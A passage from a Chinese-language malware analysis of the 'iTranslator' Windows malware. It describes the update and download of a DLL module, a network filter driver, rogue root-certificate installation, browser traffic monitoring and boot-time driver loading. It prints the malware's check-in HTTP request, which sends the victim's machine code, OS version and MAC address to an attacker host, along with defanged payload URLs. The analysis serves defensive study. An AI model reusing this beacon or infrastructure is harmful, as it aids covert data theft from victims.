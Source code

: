 在URI中，`uid=`为机器代码，`v=`为恶意软件当前版本（这里的版本为`1.0.0`），`x=`为受害者的Windows架构（32位或者64位）。在头部数据中，`UID: P002`为恶意软件的GUID。在响应报文中，恶意软件会返回最新的版本信息以及下载链接。在本文样本中，最新的版本为`1.0.7`版，下载链接为`hxxp://gl.immereeako.info/files/upgrade/32/iTranslator.dll`（然而在分析该恶意软件的过程中，最新版本更新到了`1.0.8`版，下载链接也变为`hxxp://dl.shalleeatt.info/ufiles/32x/iTranslator.dll`）。

恶意软件随后会下载DLL文件，将其保存为同一个目录（即`C:\ProgramData\itranslator\`）下的`wintrans.exe`。根据我的分析，下载的文件`iTranslator.dll`可能是这款恶意软件的主模块，其执行的部分任务列表如下：

1、提取并加载一个网络过滤器驱动；

2、与其他驱动交换数据；

3、在未经受害者许可的情况下，将SSL证书以可信根证书形式安装到浏览器中；

4、监控受害者浏览器的互联网访问数据包。

有趣的是，下载的文件并不仅仅是一个DLL文件，而是一个文件容器，其资源区中包含许多其他文件，这些文件随后会释放到受害者的本地目录中。下载的`iTranslator.dll`可以在首次安装时由`wintrans.exe`加载运行，也可以在Windows系统启动时由`winlogon.exe`负责加载及运行，而后者由`iTranslatorSvc`驱动负责加载。我会在下文的驱动启动部分详细介绍这个过程。

恶意软件同时也会在系统注册表的`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion`路径中记录最新的版本信息，其中`iVersion`代表最新版本号，本文成稿时该版本号为`1.0.8`。



## 五、通知攻击者

`wintrans.exe`的最后一个任务是将受害者的系统信息发送到攻击者的服务器，发送的报文格式如下所示：

```
GET /in.php?type=is&amp;ch=P002&amp;mc=07********************93&amp;os=Windows7(6.1)&amp;t=1435127837&amp;m=08****0****E HTTP/1.1

UID: P002

MC: 078********************3

User-Agent: ITRANSLATOR

Host: tk.immereeako.info
```

URL中的`ch=`以及头部中的`UID`为GUID `P002`；URL中的`mc=`以及头部中的`MC`为受害者系统的机器码；`os=`为受害者的操作系统版本；`t=`为当前Windows的安装日期，该信息来自于系统注册表中，恶意软件使用了Unix格式时间，即从1970年1月1日以来的秒数；`m`为受害者的网络MAC地址。

我将原始报文中的敏感信息以`*`号来代替，该报文用来通知攻击者恶意软件已在Windows系统上安装完毕。



## 六、在Windows启动过程中加载恶意驱动

Windows系统启动过程中会加载`iTranslatorSvc`驱动，从现在开始我会详细介绍恶意软件的工作流程。

恶意驱动文件路径为`C:\Windows\iTranslator`，经过VMProtect v2.0.7加壳保护，存在多个导出函数，如图7所示。

[![](https://p1.ssl.qhimg.com/t01b47f81b5d726c371.png)](https://p1.ssl.qhimg.com/t01b47f81b5d726c371.png)

图7. iTranslatorSvc驱动的导出函数
